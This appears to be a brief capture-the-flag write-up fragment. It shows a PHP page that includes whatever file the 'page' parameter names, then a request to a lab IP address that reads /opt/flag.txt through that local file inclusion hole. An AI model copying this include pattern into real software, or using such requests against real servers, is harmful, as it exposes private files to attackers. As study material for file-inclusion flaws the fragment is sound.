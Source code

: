 ```
<?php
   $page = $_GET['page'];
   if(isset($page))
   {
       include("$page");
   }
   else
   {
       header('Location: '.'index.php?page=index.html');
   }
?>
```
Get 
http://10.10.111.104:8080/index.php?page=/opt/flag.txt